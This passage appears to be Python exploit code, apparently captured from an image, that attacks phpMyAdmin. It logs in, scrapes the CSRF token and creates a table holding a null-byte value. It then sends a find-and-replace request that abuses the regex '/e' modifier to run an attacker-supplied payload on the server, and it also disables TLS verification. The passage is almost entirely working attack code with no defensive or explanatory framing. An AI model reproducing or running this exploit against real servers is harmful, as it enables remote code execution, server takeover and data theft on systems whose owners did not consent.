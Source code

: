 ```PYTHON
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
```